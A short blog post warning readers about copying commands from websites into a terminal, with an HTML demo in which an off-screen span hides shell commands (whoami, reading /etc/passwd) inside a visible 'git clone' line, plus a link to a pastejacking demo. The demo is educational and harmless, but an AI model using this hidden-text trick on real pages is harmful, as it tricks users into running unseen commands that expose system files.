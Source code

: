 ```yaml
---
layout: post
title: dangerous clipboards
date: '2018-04-24 13:11'
---
```


Have you ever cut/copied/pasted into a terminal window? Here's one of a few reasons why you shouldn't:

    <p class="codeblock">
      <!-- Oh noes, you found it! credits go to http://thejh.net/misc/website-terminal-copy-paste-->
      git clone
      <span style="position: absolute; left: -100px; top: -100px">/dev/null; clear; echo -n "Hello ";whoami|tr -d '\n';echo -e '!\nThat was a bad idea. Don'"'"'t copy code from websites you don'"'"'t trust!<br>Here'"'"'s the first line of your /etc/passwd: ';head -n1 /etc/passwd<br>git clone </span>
      git://git.kernel.org/pub/scm/utils/kup/kup.git
    </p>

# another one:
view-source:https://security.love/Pastejacking/
